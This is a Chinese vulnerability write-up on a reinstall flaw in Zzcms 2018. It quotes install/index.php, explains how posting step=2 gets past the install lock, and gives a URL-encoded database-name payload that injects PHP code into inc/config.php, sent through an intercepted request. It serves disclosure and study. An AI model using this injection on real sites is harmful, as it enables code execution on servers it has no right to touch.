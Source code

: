 Zzcms 2018 最新版重装getshell
=============================

一、漏洞简介
------------

源码信息：Zzcms 2018

问题文件： \\zzcms\\install\\index.php

漏洞类型：重装getshell

站点地址：<http://www.zzcms.net/>

二、漏洞影响
------------

Zzcms2018

三、复现过程
------------

### 0x01攻击分析

在文件\\ zzcms \\ install \\ index.php文件的第9-10行中\$
\_POST使用了提取变量注册的方法进行变量的初始化。

    if($_POST) extract($_POST, EXTR_SKIP);//把数组中的键名直接注册为了变量。就像把$_POST[ai]直接注册为了$ai。
    if($_GET) extract($_GET, EXTR_SKIP);
    $submit = isset($_POST['submit']) ? true : false;
    $step = isset($_POST['step']) ? $_POST['step'] : 1;

分析代码可以知道，setp为空的时候，初始化初始化的变量1，然后进入到step\_1.php，有install.lock，就不能重装，所以我们这里直接POST
step = 2绕过

    <?php
    switch($step) {
            case '1'://协议
                    include 'step_'.$step.'.php';
            break;
            case '2'://环境
                    $pass = true;
                    $PHP_VERSION = PHP_VERSION;
                    if(version_compare($PHP_VERSION, '4.3.0', '<')) {
                            $php_pass = $pass = false;
                    } else {
                            $php_pass = true;
                    }
                    $PHP_MYSQL = '';
                    if (extension_loaded('mysqli') || extension_loaded('mysql')) {
                            $PHP_MYSQL = '支持';
                            $mysql_pass = true;
                    } else {
                            $PHP_MYSQL = '不支持';
                            $mysql_pass = $pass = false;
                    }
            $PHP_GD = '';
            if(function_exists('imagejpeg')) $PHP_GD .= 'jpg';
            if(function_exists('imagegif')) $PHP_GD .= ' gif';
            if(function_exists('imagepng')) $PHP_GD .= ' png';
                    if($PHP_GD) {
                            $gd_pass = true;
                    } else {
                            $gd_pass = false;
                    }
                    $PHP_URL = @get_cfg_var("allow_url_fopen");//是否支持远程URL，采集有用
                    $url_pass = $PHP_URL ? true : false;
                    include 'step_'.$step.'.php';
            break;
            case '3'://查目录属性
                    include 'step_'.$step.'.php';
            break;
            case '4'://建数据库
                    include 'step_'.$step.'.php';
            break;
            case '5'://安装进度
                    function dexit($msg) {
                            echo '<script>alert("'.$msg.'");window.history.back();</script>';
                            exit;
                    }

                    $conn=connect($db_host,$db_user,$db_pass,'',$db_port);
                    if(!$conn) dexit('无法连接到数据库服务器，请检查配置');
                    $db_name or dexit('请填写数据库名');
                    if(!select_db($db_name)) {
                            if(!query("CREATE DATABASE $db_name")) dexit('指定的数据库不存在\n\n系统尝试创建失败，请通过其他方式建立数据库');
                    }
                    $url=str_replace("'",'',$url);
                    //保存配置文件
                    $fp="../inc/config.php";
                    $f = fopen($fp,'r');
                    $str = fread($f,filesize($fp));
                    fclose($f);
                    $str=str_replace("define('sqlhost','".sqlhost."')","define('sqlhost','$db_host')",$str) ;
                    $str=str_replace("define('sqlport','".sqlport."')","define('sqlport','$db_port')",$str) ;
                    $str=str_replace("define('sqldb','".sqldb."')","define('sqldb','$db_name')",$str) ;
                    $str=str_replace("define('sqluser','".sqluser."')","define('sqluser','$db_user')",$str) ;
                    $str=str_replace("define('sqlpwd','".sqlpwd."')","define('sqlpwd','$db_pass')",$str) ;
                    $str=str_replace("define('siteurl','".siteurl."')","define('siteurl','$url')",$str) ;
                    $str=str_replace("define('logourl','".logourl."')","define('logourl','$url/image/logo.png')",$str) ;
                    $f=fopen($fp,"w+");//fopen()的其它开关请参看相关函数
                    fputs($f,$str);//把替换后的内容写入文件
                    fclose($f);
                    //创建数据
                    include 'step_'.$step.'.php';
                    break;
            case '6'://安装成功
                    include 'step_'.$step.'.php';
            break;
    }

![](/Users/aresx/Documents/VulWiki/.resource/Zzcms2018最新版重装getshell/media/rId26.png)

    <?php
    if(@$step==3){
    $token = md5(uniqid(rand(), true));    
    $_SESSION['token']= $token; 
    ?>

step\_3.php文件中有一个创建的令牌，后面创建数据库的时候验证，所以从步骤=
2，一步一步偶。

从上面的代码文中知道\$ url = str\_replace（"\'"，"，\$ url）;
把单引号替换为空了，然后的fputs写INC /
config.php的配置文件中所以这里通过\$ DB\_NAME来写到配置文件。

### 0×02复漏洞现

在数据库配置页面，数据库名填写：

zzcms%27%29%3bphpinfo%28%29%3b%2f%2f
本机创建zzcms\');phpinfo();//的数据库

![](/Users/aresx/Documents/VulWiki/.resource/Zzcms2018最新版重装getshell/media/rId28.png)

因为本地有JS验证，所以先把数据库名改成123，bp抓到包以后在修改成zzcms%27%29%3bphpinfo%28%29%3b%2f%2f

![](/Users/aresx/Documents/VulWiki/.resource/Zzcms2018最新版重装getshell/media/rId29.png)

成功写入到配置文件

![](/Users/aresx/Documents/VulWiki/.resource/Zzcms2018最新版重装getshell/media/rId30.png)

![](/Users/aresx/Documents/VulWiki/.resource/Zzcms2018最新版重装getshell/media/rId31.png)

image
